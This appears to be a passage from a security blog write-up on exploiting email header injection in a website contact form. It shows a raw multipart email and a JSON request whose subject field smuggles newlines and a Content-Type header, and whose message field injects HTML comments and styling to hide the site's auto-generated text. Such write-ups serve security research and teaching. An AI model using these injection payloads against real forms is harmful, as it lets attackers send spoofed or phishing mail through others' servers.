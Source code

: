 This never worked because the only way to get the opening comment block tag in the body was to break out of the header with “\n\n”, which effectively breaks the Content-Type header that made anything HTML in the first place. So I was able to get both comment block tags in the body, but they were being parsed as plain-text and had no effect:

```plaintext
<!--
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
MIME-Version: 1.0
Content-Type: multipart/mixed; 
    boundary=&quot;----=_Part_2337_1756916918.234932477398&quot;
X-Mailer: sendmsg

------=_Part_2337_1756916918.234932477398
Content-Type: text/html; charset=utf-8
Content-Transfer-Encoding: 7bit
<html>
    <head>
    <style>
        body {
            font-family: Calibri,sans-serif;
        }
        </style>
    </head>
    <body>
        Message from the Contact Us page from TheCEO. The information requested is:
        <br><br>
        --> this is my message
    </body>
</html>
------=_Part_2337_1756916918.234932477398--
```

This time however, I’m able to insert data in the body to be parsed as HTML and by using the `<p>` elements in the previous attempt, I was able to prove that data does not need to be within `<html>` and `<body>` elements to be interpreted as HTML. So instead of injecting a `<p>` element, this time I tried injecting a HTML opening comment block tag `<!--`, for which I had exactly enough space left in the Subject field. It was inserted right after the `Content-Type:text/html` header field:

```json
{
    "firstName": "TheCEO",
    "lastName": "YourBoss",
    "email": "the_ceo@haxxme.com",
    "phone": "1112223333",
    "subject": "\nContent-type:text/html;\n\n<!--",
    "message": "--></p><style>p {color:red;}</style><p>finally, everything else is gone</p><!--"
}
```

Finally:

<img src="{{ site.url }}{{ site.baseurl }}/images/smtp_cs2/finally.png" alt="finally got rid of the auto-generated message" class="left-align shadow" style="width:calc(1084px * .66667)">
